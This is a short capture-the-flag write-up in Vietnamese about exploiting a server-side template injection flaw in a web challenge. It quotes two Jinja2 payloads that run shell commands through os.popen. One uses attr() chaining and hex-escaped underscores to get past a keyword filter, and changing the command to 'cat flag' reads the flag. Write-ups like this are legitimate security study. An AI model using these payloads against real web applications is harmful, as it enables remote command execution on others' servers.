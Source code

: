![image](https://github.com/user-attachments/assets/c01b0b45-d68a-4847-8e86-8f27468cc6c4)

Đây là giao diện của web:

![image](https://github.com/user-attachments/assets/5b0def24-fea4-4ea5-81a8-b0531da389c2)

Và nó dính ssti:

![image](https://github.com/user-attachments/assets/8a90be76-bcde-4630-8c64-941b69dbbb04)

Khi tôi dùng `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` thì không được, tôi thấy có vẻ nó filter là ví dụ cả cụm `__import__('os')` thay vì mỗi import hoặc os:

![image](https://github.com/user-attachments/assets/fa885122-aef5-45d0-bd90-cc272a9ae5e6)

Tôi thử dùng burp intruder để dò payload thì ra cái `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`

![image](https://github.com/user-attachments/assets/6dbfc930-6c89-4259-adde-2cef91c12b73)

Đổi thành cat flag là ra:

![image](https://github.com/user-attachments/assets/4a49ad61-37b5-446c-b2fc-4218bd1cd1aa)


